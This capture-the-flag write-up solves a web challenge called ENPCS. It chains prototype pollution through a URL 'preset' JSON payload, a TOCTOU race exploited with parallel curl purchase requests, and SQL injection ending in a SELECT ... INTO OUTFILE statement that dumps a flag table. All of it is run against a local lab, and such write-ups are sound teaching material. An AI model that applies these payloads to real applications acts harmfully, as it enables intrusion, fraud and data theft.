










# Challenge Name: ENPCS
## Category: WEB

## Author: pickleomar

### Summary

The solve for this challenge consists of chaining multiple weaknesses across the client-side game logic and validation flow. One vulnerability is identified through SAST, while the remaining vulnerabilities are discovered through DAST. Understanding the logic and order of the chain is essential to reaching the real flag.
# POC

## STEP 1: Prototype Pollution through SAST

After registering normally with a `user`/`pass`, we start by inspecting the JavaScript bundle responsible for the game's map, configuration, and ENPC simulation found in `/assets/index-D-AfyvkQ.js`



During the analysis, we identify a custom deep-merge helper named `fe`, which recursively merges a user-controlled configuration object into the default game preset:

```js
function fe(e, t) {
    if (!t || typeof t != `object`) return e;

    for (let n of Object.keys(t)) {
        let r = t[n],
            i = e[n];

        r && typeof r == `object` && !Array.isArray(r)
            ? ((!i || typeof i != `object`) && (e[n] = {}), fe(e[n], r))
            : e[n] = r
    }

    return e
}
```

### Root cause

The function iterates over attacker-controlled keys using `Object.keys(t)` and does not reject prototype-related keys such as `__proto__`, `constructor`, or `prototype`.

When the player supplies a __proto__ property containing an object, e[n] resolves to Object.prototype.

```js
e[n]
```

resolves to the inherited `Object.prototype`. The recursive call then operates on that object:

```js
fe(e[n], r)
```

allowing attacker-controlled properties to be written onto `Object.prototype`.

### Reachable source

The same bundle exposes `k()`, which retrieves a JSON object from the URL and passes it to `fe()` during page initialization:

```js
function k() {
    let e = new URL(window.location.href),

        t = O(
            e.searchParams.get(`preset`) ??
            e.searchParams.get(`preference`)
        ),

        n = O(window.localStorage.getItem(`realmPreset`)),
        r = {};

    return n && typeof n == `object` && fe(r, n),
           t && typeof t == `object` && fe(r, t),
           r
}
```

The `preset` parameter is therefore an attacker-controlled source that reaches the vulnerable merge operation.

### Identifying the useful prototype-pollution keys

The next step is to determine which polluted properties actually influence the NPC simulation.

The hidden model is resolved using a fresh empty object:

```js
resolveHiddenModel() {
    let e = {},
        t = this.config.hiddenModel;

    return {
        m:     typeof e.m     == `number` ? e.m     : t.m,
        b:     typeof e.b     == `number` ? e.b     : t.b,
        noise: typeof e.noise == `number` ? e.noise : t.noise,
        lr:    typeof e.lr    == `number` ? e.lr    : t.lr
    }
}
```

Because `e` is an empty object, properties not defined directly on it are resolved through the prototype chain.

Therefore, if we pollute:

```text
Object.prototype.m
Object.prototype.b
Object.prototype.noise
Object.prototype.lr
```

the `typeof` checks succeed and `resolveHiddenModel()` uses the attacker-controlled values instead of the default model parameters.

The four target keys are therefore:

```text
m
b
noise
lr
```

These values control the NPC movement model used in the next stage.

---

## STEP 2: Aligning the ENPCs on `x = y`

With the hidden-model parameters under our control, we can manipulate the NPC movement until the ENPCs converge toward the `x = y` diagonal.

The movement integrator contains:

```js
let y = s * a.x + c - a.y,
    b = A(this.rng, -1, 1) * l * 12;

a.vy += (y * u + b) * e * 60,

a.x += a.vx * e,
a.y += a.vy * e;
```

where the hidden-model parameters map to:

```text
s = m
c = b
u = lr
l = noise
```

We choose:

```text
m = 1
b = 0
lr = 0.15
noise = 0
```

This produces the following behavior:

* `m = 1` and `b = 0` transform the error term into `x - y`, creating a restoring force toward the diagonal `x = y`.
* `lr = 0.15` provides enough gain for the ENPCs to converge without excessive oscillation.
* `noise = 0` removes the random perturbation that would otherwise prevent stable alignment.

### Prototype Pollution Payload

The prototype is polluted through the `preset` URL parameter:

```text
/game?preset={"__proto__":{"m":1,"b":0,"noise":0,"lr":0.15}}
```

After URL encoding as required by the browser, this payload causes `fe()` to write the four parameters onto `Object.prototype`.

**The fake flag is then returned and rendered.**

When the validator accepts the submitted state, the returned flag is passed through `onFlagReveal` and ultimately rendered on the frontend.

However, this only reveals the **fake flag**. Triggering this condition is still useful, as it becomes relevant when combined with the other weaknesses exploited later in the chain.




### STEP 3: Race Condition TOCTOU

Notice how we are given **65 bits** as a starting point. These bits can be used in the store to buy different items.



For every item bought with `x` bits and then fed to the ENPCs, the rank score increases by `2 × x` bits, except for the ball, which is only used for fun.

The item descriptions are written in Darija, and they seem to hint at a connection between two important **related items**:

**Apple**

> `tfa7 dial a7med khamj, katssayb lik mok drinks bih`

**Drink**

> `the water of life, mssayb btfa7 dial a7med`

### Observation

The drink is made out of apples. This should make the player think about how these two items could be used together. At this point, a **Race Condition** between the two purchase requests becomes worth investigating.

```bash
└─$ curl 'http://127.0.0.1:3000/api/store/buy' \
  -X POST \
  -H 'authorization: Bearer <JWT>' \
  -H 'content-type: application/json' \
  --data-raw '{"item_id":"apple"}' &

curl 'http://127.0.0.1:3000/api/store/buy' \
  -X POST \
  -H 'authorization: Bearer <JWT>' \
  -H 'content-type: application/json' \
  --data-raw '{"item_id":"drink"}' &

wait

[1] 740079
[2] 740080

{"bits":60,"inventory_quantity":1,"item_id":"apple","message":"Purchased!"}

[1]  - done       curl 'http://127.0.0.1:3000/api/store/buy' -X POST -H ... --data-raw

{"bits":57,"inventory_quantity":1,"item_id":"drink","message":"Purchased!"}

[2]  + done       curl 'http://127.0.0.1:3000/api/store/buy' -X POST -H ... --data-raw
```

Here we can see that we bought both the apple and the drink at the exact same time, which only charged us for the price of the drink (6bits instead of 9bits).

From here, we continue exploiting this weakness until we are out of bits. After feeding all the drinks and apples to the NPCs, we eventually reach the highest rank, **ENPC Architect**.



### STEP 4: SQL STATEMENT
After unlocking /architect-your-enpcs, this section was actually designed to teach each ENPC from different cities in Morocco (SLAWI, LMRAKCHI, FASSI, CASAWI, TETOUANI, etc.) what to say when the ENPC performs one of the following actions:
{EATS AN APPLE, EATS A BERRY, EATS A CARROT,EATS A SNACK PACK, DRINKS A DRINK, KICKS THE BALL, TOUCHES ANOTHER ENPC}



Essentially, here the player should remember the fake flag from STEP 2, `NSC{w4l0_alKh4waA_chof_m3a_Tet0u4ni}`, which hints to look further into the TETOUANI character because he might have the real flag

While testing for SQL injection on the TETOUANI's input field with SQLMap, all the payloads returned a response code of 200 except one.



Status code 500, so we ran a simple local proxy in order to determine the exact request that caused this.



We replayed it then with cURL, reducing the payload until we were only left with `"SELECT"`, which still gave a 500 error. Weird, right?



At this point, we should start thinking that the field is simply accepting SQL statements, and with some reflection on everything we did until now, it'd be logical to think that:

The fake flag can be replaced with the real one.

So we know that we have a database and the flag must be there.

And if we extract it, where can we put it to visualize it?

Right, the most basic filename in every CTF: `flag.txt`.

So the **WINNING SQL STATEMENT** would then be:

```sql
SELECT * from flag INTO OUTFILE 'flag.txt';
``
```



our statement executed successfully with a 200 status code

Finally going back and triggering the prototype pollution again we can see the real flag  



#### Disclaimer

The design and ENPCs in this challenge were inspired by **Black Mirror, Season 7, Episode 4, “Plaything.”** These little NPCs are called **Thronglets** in the episode, and their concept and behavior served as a little inspiration for the ENPCs used in this challenge.